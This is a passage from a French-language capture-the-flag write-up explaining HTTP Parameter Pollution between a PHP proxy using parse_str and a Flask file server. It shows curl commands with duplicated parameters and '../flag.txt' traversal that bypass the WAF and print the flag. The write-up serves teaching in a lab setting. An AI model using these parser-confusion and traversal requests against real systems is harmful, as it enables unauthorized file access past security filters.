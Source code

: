 Il y a encore une différence de parsing entre les applications PHP et Python (Flask).

Dans la fonction `waf` du proxy PHP, l'utilisation de la fonction `parse_str`  pour parser l'URL rend le HTTP Parameter Pollution possible.

[Documentation parse_str](https://www.php.net/manual/en/function.parse-str.php)

> Parses string as if it were the query string passed via a URL

Dans l'URL `http://filserver.internal/ls?dir=..&dir=foo`, l'appli Python considèrera la valeur `..` alors que PHP plutôt `foo`.

```console
pun@ctf:~$ curl 'http://127.0.0.1:45003/?proxydebug=yesplz&token=&token=DEEZNUTS&url=http://fileserver.internal/ls?dir=..%26dir=foo'
<pre>
files
flag.txt
app.py
</pre>
```

Il ne reste plus qu'à récupérer le flag !

```console
pun@ctf:~$ curl 'http://127.0.0.1:45003/?proxydebug=yesplz&token=&token=DEEZNUTS&url=http://fileserver.internal/cat?file=../flag.txt%26file=foo'
<pre>
brb{Thr33_Diff3rent_Languag3s_=_HPP_Nightmar3s}
</pre>
```

Pour finir, une petite illustration pour visualiser l'URL avec le double HTTP Parameter Pollution :

![double_hpp](images/double_hpp.png)